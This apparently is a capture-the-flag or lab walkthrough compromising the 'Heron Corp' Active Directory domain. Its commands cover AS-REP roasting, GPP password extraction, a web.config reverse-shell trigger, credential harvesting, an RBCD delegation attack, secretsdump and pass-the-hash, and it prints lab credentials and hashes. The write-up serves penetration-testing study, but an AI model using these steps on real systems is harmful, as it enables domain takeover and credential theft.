






## INFO

This is an assumed breach scenario. Heron Corp created a low-privileged local user account on a jump server for you.

```
pentest:Heron123!
```

Only the jump server is reachable from the external network.

```
└─# ssh pentest@10.10.174.182
```


Upload the tool [fscan](https://github.com/shadow1ng/fscan) in the jmp box, and map the internal network. 

```
pentest@frajmp:~$ ./fscan -h 10.10.174.1/24

(icmp) Target 10.10.174.181   is alive
(icmp) Target 10.10.174.182   is alive
[*] Icmp alive hosts len is: 3

10.10.174.181:445 open
10.10.174.181:139 open
10.10.174.181:135 open
10.10.174.181:80 open
10.10.174.181:88 open
10.10.174.182:22 open

[*] NetBios    [+] DC:mucdc.heron.vl    Windows Server 2022 Standard 20348
[*] WebTitle    http://10.10.174.181    title:Heron Corp
```

Cool ! There's a DC which is accessible only internally. Now we need reach the DC from our attacker box. 


Lets start a proxy tunnel , to  enumerate and breach the internal network .

```
└─# sshuttle -r pentest:'Heron123!'@10.10.174.182 10.10.174.1/24 -x 10.10.174.182
```


## BREACHING THE DOMAIN

Now , we can reach the DC from our attacker box. 


Found list of usernames , for further enumerations.


Lets Roast the users.

```
└─# impacket-GetNPUsers -no-pass -usersfile user_ heron.vl/ -dc-ip 10.10.169.133
```

We got hash of samuel.davies, the account has `UF_DONT_REQUIRE_PREAUTH` set.


Crack the hash.
```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt samuel.davies_hash
```


Now, We have valid domain user credentials , and alot of new possibilities to breach the domain.

Run Bloodhound to see what level of access this user has, and other attack vectors.

```
└─# bloodhound-python --username samuel.davies --password 'l6fkiy9oN' --nameserver 10.10.169.133 --domain heron.vl --domain-controller MUCDC.heron.vl --dns-tcp --collectionmethod all --zip
```


```
└─# crackmapexec smb 10.10.169.133 -u samuel.davies -p l6fkiy9oN -M gpp_password
```


Cool !  Its the credentials of svc-web-accounting . !

```
└─# crackmapexec smb 10.10.169.133 -u svc-web-accounting-d  -p 'H3r0n2024#!' --shares
```

This account has got more rights / permissions . Now , we need a shell in the box.


Modify the web.config file :

```
<?xml version="1.0" encoding="utf-8"?>  
<configuration>  
  <location path="." inheritInChildApplications="false">  
    <system.webServer>  
      <handlers>  
        <add name="aspNetCore" path="execute.now" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />  
      </handlers>  
      <aspNetCore processPath="powershell" arguments="-e (POWERSHELL BASE64 PAYLOAD)" hostingModel="OutOfProcess" />  
    </system.webServer>  
  </location>  
</configuration>  
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```


Upload and trigger the payload @execute.now





WE got the reverse shell as heron svc-web-accounting. 



### Credentials Harvesting..


```
PS C:\webaccounting> cat C:\Windows\scripts\ssh.ps1
$plinkPath = "C:\Program Files\PuTTY\plink.exe"
$targetMachine = "frajmp"
$user = "_local"
$password = "Deplete5DenialDealt"
& "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"
```


Cool ! Local ADmin of the jump server.

```
└─# ssh _local@frajmp.heron.vl
```





We can decode the krb5.keytab file i.e klist file  [with](https://github.com/sosdave/KeyTabExtract) . Lets copy the file to the victim and decrypt .




Cool ! We got machine account hash . 


Password-reuse.

```
└─# crackmapexec smb MUCDC -u julian.pratt -p Deplete5DenialDealt
```


Re-Login to the SMB , with new credentials you got !

```
└─# impacket-smbclient heron.vl/julian.pratt:Deplete5DenialDealt@MUCDC
```





## RBCD Attack  [RBCD ATTACK](../../AD_ATTACKS/RBCD%20ATTACK.md)

Cool ! adm_prju got some dope privilege!





--> First, if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added with Impacket's addcomputer.py 

But we already got hash of FRAJMP$


--> We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's rbcd.py script can be used for that purpose:

```
└─# impacket-rbcd heron.vl/adm_prju:ayDMWV929N9wAiB4 -action 'write' -delegate-from 'FRAJMP$' -delegate-to 'MUCDC$'
```

--> And finally we can get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. Impacket's getST.py example script can be used for that purpose.

```
└─# impacket-getST -spn 'cifs/MUCDC.heron.vl' -impersonate '_admin' heron.vl/FRAJMP$ -hashes :6f55b3b443ef192c804b2ae98e8254f7
```

This ticket can then be used with Pass-the-Ticket, and could grant access to the file system of the TARGETCOMPUTER.

```
└─# export KRB5CCNAME=_admin@cifs_MUCDC.heron.vl@HERON.VL.ccache
```

```
└─# impacket-secretsdump -k mucdc.heron.vl
```


WE OWN THE DC ! But No-Winrm / Upload a Reverse / C2 Shell for Persistence!

```
└─# impacket-wmiexec heron.vl/_admin@MUCDC -hashes :3998cdd28f164fa95983caf1ec603938
```


Upload a Reverse / C2 Shell for Persistence!


### Learned

--> Password Reuse , Multiple times , each time you got new set of credentials !

--> Regularly Check privileges of your new found users.

--> Credentials Harvesting , Need to enumerate MORE !

--< RBCD Attack !

